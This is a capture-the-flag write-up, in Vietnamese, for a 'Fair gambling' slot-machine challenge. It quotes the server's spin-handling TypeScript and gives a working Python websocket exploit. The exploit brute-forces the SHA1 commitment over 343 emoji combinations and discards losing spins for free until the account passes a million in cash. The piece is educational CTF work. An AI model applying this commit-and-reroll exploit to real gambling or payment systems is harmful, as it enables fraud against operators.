

# Fair gambling



Quan sát ban đầu ta thấy, server sẽ cho ta biết kết quả hash SHA1 của 3 emoji ở lượt quay tiếp theo.

Đọc file `server.ts`, có những hàm quan trọng sau:

```JavaScript
// Hàm này để hủy bỏ lượt spin tiếp theo
function discardPreparedSpins(userid: string) {
  for (const [sid, spin] of spins) {
    if (spin.userid === userid) spins.delete(sid);
  }
}
// Hàm này trả sid và hash tiếp theo 
async function prepareSpin(userid: string) {
  const result = [weightedPick(), weightedPick(), weightedPick()];
  const emojis = result.map((symbol) => symbol.emoji);
  const win = emojis.every((emoji) => emoji === emojis[0]) ? result[0].payout : 0;
  const sid = id();

  const spin = { userid, result: emojis, win, hash: await sha1(emojis.join("")) };
  spins.set(sid, spin);
  return { sid, hash: spin.hash } satisfies SpinRef;
}
// Hàm này cần lưu ý đặc biệt, nếu ta gửi type "spin" nhưng sid không khớp trên màn hình thì lượt quay tiếp sẽ bị hủy bỏ
async function spin(ws: ServerWebSocket<{ userid: string }>, sid?: string) {
  const user = getUser(ws.data.userid);
  const current = sid ? spins.get(sid) : undefined;

  if (!current || current.userid !== ws.data.userid) {
    // An invalid SID deliberately discards a prepared result without charging the user.
    discardPreparedSpins(ws.data.userid);
    send(ws, {
      type: "spin",
      status: "discarded",
      message: "Spin expired. Prepared a replacement.",
      next: await prepareSpin(ws.data.userid),
    });
    return;
  }

  if (user.cash < SPIN_COST) {
    send(ws, {
      type: "spin",
      status: "rejected",
      message: "Not enough cash to spin.",
      next: { sid: sid!, hash: current.hash },
    });
    return;
  }

  spins.delete(sid);
  user.cash -= SPIN_COST;
  let win = current.win;
  if (win > 0) {
    user.winStreak++;
    win *= STREAK_MULTIPLIER ** (user.winStreak - 1);
  } else {
    user.winStreak = 0;
  }
  user.cash += win;
  const next = await prepareSpin(ws.data.userid);

  send(ws, {
    type: "spin",
    status: "revealed",
    result: {
      sid,
      symbols: current.result,
      hash: current.hash,
      win,
    },
    cash: user.cash,
    streak: user.winStreak,
    next,
  });
}
```

Từ đó, mình có luồng exploit sau:

Mỗi lượt quay, mình sẽ tính xem đó là hash của 3 emoji nào (chỉ có 7 emoji nên có 7^3 trường hợp), sau đó, nếu nó khớp với sid hiện tại thì sẽ cho server spin, lúc đó cash sẽ được tăng, còn không thì gửi lượt hủy:

```Python
import hashlib
import json
import sys
from websocket import create_connection

URL = "wss://fair-gambling-532d158a90f2deed-global.challs.brunnerne.xyz/ws"
def sha1(s):
    return hashlib.sha1(s.encode()).hexdigest()

def send(ws,data):
    ws.send(json.dumps(data))
  
def recv(ws):
    return json.loads(ws.recv())

ws = create_connection(URL)
state = recv(ws)

symbols = [s["emoji"] for s in state["symbols"]]
payouts = {s["emoji"]: s["payout"] for s in state["symbols"]}

known = {
    sha1(a+b+c):[a,b,c]
    for a in symbols
    for b in symbols
    for c in symbols
}
cash = state["cash"]
streak = state["streak"]
spin = state["next"]

while cash < 1000000:
    rest = known[spin["hash"]]
    win = 0
    if rest[0]==rest[1]==rest[2]:
        win = payouts[rest[0]]
    if win == 0:
        send(ws,{"type":"spin","sid":"no"})
        spin = recv(ws)["next"]
        continue
  
    send(ws,{"type":"spin","sid":spin["sid"]})
    msg = recv(ws)
  
    cash = msg["cash"]
    streak = msg["streak"]
    spin = msg["next"]
    print(cash)
  
send(ws,{"type":"redeem"})
print(recv(ws))
```
